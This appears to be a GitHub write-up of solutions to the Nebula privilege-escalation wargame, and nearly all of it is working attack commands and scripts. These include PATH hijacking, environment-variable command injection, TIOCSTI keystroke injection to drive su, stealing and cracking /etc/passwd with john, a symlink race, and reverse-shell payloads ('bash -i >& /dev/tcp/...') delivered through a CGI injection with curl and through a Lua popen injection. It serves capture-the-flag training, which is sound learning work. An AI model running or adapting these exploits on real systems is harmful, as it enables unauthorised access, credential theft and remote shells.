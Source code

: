
### Challenge link

    https://exploit-exercises.com/nebula/

### Level 00

    $ find / -perm -4000 -user flag00 2> /dev/null

### Level 01

    $ echo -e '#!/bin/bash\n/bin/sh -c getflag' > ./echo; chmod +x ./echo; PATH=./:"$PATH" /home/flag01/flag01

### Level 02

    $ USER='`/bin/sh -c getflag`' /home/flag02/flag02

### Level 03

```
#!/bin/bash

echo 'getflag > output2' > /home/flag03/writable.d/mz
echo 'Please wait while cron execute your command ...'
while [ ! -f /home/flag03/output2 ]; do sleep 1; done
cat /home/flag03/output2
```

### Level 04

My comments:

```
# this won't work (cause su won't take password from stdin)
# echo `DST=/home/flag04; ln -s $DST/token lnk; $DST/flag04 ./lnk` | su -

# this also won't work on Ubuntu (why?)
# echo `DST=/home/flag04; ln -s $DST/token lnk; $DST/flag04 ./lnk` | sudo -u flag04 -S -s getflag

# so to automate it I had to use trick that I've learned from http://vladz.devzero.fr/002_su-stdin.php
```

My solution:

    $ echo -e '#include <stdio.h>\n #include <sys/ioctl.h>\n #include <string.h>\n main(int argc, char *argv[]) { char c[512]; int i; sprintf(c, "%s\\n", argv[1]); for(i=0; i<strlen(c); ++i) ioctl(0,TIOCSTI,c+i);}' | gcc -xc -; (sleep 1; ./a.out `DST=/home/flag04; ln -s $DST/token lnk; $DST/flag04 ./lnk`) & su flag04 -c getflag -

### Level05

    $ cp /home/flag05/.backup/backup-19072011.tgz a.tgz;tar xzf a.tgz; ssh flag05@localhost getflag; rm a.tgz

### Level06

(remote exploit)

This time one need to run it from external machine (not nebula machine) and provide IP address of nebula machine in IP variable (for me it is 192.168.1.236).

My notes:

```

IP=$1

read -r -d '' SRC <<-'EOF'
#include <stdio.h>
#include <sys/ioctl.h>
#include <string.h>

main(int argc, char *argv[]) 
{ 
	char c[512]; 
	int i; 
	sprintf(c, "%s\n", argv[1]); 
	for(i=0; i<strlen(c); ++i) 
		ioctl(0,TIOCSTI,c+i);

	return 0;
}
EOF

echo "$SRC" | gcc -xc -
eval { sleep 1; ./a.out user1; } & su user1
#& scp level06@${IP}:/etc/passwd ./
```

Solution:

    $ IP=192.168.1.236; echo -e '#include <stdio.h>\n #include <sys/ioctl.h>\n #include <string.h>\n main(int argc, char *argv[]) { char c[512]; int i; sprintf(c, "%s\\n", argv[1]); for(i=0; i<strlen(c); ++i) ioctl(0,TIOCSTI,c+i);}' | gcc -xc -; (sleep 1; ./a.out level06;) & scp level06@$IP:/etc/passwd ./; (sleep 1; ./a.out `john ./passwd --show | awk -F: '{print $2}'`;) & ssh flag06@$IP

### Level07

(remote exploit)


```
#!/bin/bash

# exploit usage: launch exploit from external machine as $1 provide IP to nebula machine

# standard payload to do the level (boring)
PAYLOAD=getflag

# more interesting approch (gives you reverse shell)
IP=$1
REVERSE_IP=$2
REVERSE_PORT=$3

#bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
PAYLOAD2=bash%20%2Di%20%3E%26%20/dev/tcp/${REVERSE_IP}/${REVERSE_PORT}%200%3E%261

if [ -z "$1" ]
then
	echo "Usage: `basename $0` <nebula-machine-ip-address> <reverse-ip> <reverse-port>"
	exit 1
fi

(sleep 1; curl http://${IP}:7007/index.cgi?Host=localhost%3B"${PAYLOAD2}") &
nc -l -p 2222 -vvv
```

### Level08

```
# hex representation of "follow TCP stream" option on first (and only) stream in tshark:
$ tshark -z follow,tcp,hex,0 -r capture.pcap

# we see interesting string where dots are 0x7f (DELETE in ASCII):
backdoor...00Rm8.ate

# when we will treat dots as DELETEs (backspaces) we will get the password (we can simulate backspaces with '\b' with echo command):
$ echo -e "backdoor\b\b\b00Rm8\bate"
backd00Rmate

$ su flag08
```

### Level10

classic TOCTOU problem:

```
# listen for "file uploads":
$ while [ 1 ]; do nc -l 18211; done

# prepare symlink which alternately links to 'fileToWhichIHaveAccess' and to 'token' files:
$ echo 'fileToWhichIHaveAccess' > /home/level10/fileToWhichIHaveAccess
$ while [ 1 ]; do ln -sf /home/level10/fileToWhichIHaveAccess /tmp/lnk; ln -sf /home/flag10/token /tmp/lnk; rm /tmp/lnk; done

# execute vulnerable binary:
while [ 1 ]; do ./flag10 /tmp/lnk 127.0.0.1; done
```

### Level12

**Vuln:**

Lack of input data validation of popen() parameter:

```
prog = io.popen("echo "..password.." | sha1sum", "r")
```

One can simply inject os command (reverse shell for example):

```
192.168.8.100$ nc -l -p 2222
victim$ echo "; bash -i >& /dev/tcp/192.168.8.100/2222 0>&1" | nc 127.0.0.1 50001
```
